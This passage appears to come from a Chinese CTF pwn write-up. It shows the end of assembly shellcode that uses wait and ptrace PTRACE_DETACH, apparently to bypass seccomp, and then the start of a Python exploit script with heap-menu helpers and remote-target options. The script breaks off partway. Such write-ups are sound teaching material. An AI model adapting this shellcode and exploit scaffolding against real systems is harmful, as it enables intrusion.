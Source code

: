 ```python
/* Wait seccomp  */
    xor rdi, rdi
    push {NR_wait}
    pop rax
    syscall

    xor r10,r10
    xor rdx,rdx
    mov rsi,rbx
    mov rdi,{PTRACE_DETACH}
    push {NR_ptrace}
    pop rax
    syscall
    hlt
"""
```

完整利用代码如下：

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
#   expBy : @eastXueLian
#   Debug : ./exp.py debug  ./pwn -t -b b+0xabcd
#   Remote: ./exp.py remote ./pwn ip:port

from lianpwn import *

cli_script()
set_remote_libc("libc.so.6")

io: tube = gift.io
elf: ELF = gift.elf
libc: ELF = gift.libc


def cmd(choice):
    ru(b">")
    sl(i2b(choice))


def add(idx, size):
    cmd(1)
    ru(b"Index: ")
    sl(i2b(idx))
    ru(b"Size: ")
    sl(i2b(size))


def delet(idx):
    cmd(2)
    ru(b"Index: ")
    sl(i2b(idx))


def edit(idx, data):
    cmd(3)
    ru(b"Index: ")
    sl(i2b(idx))
    ru(b"Content: ")
    s(data)


def show(idx):
```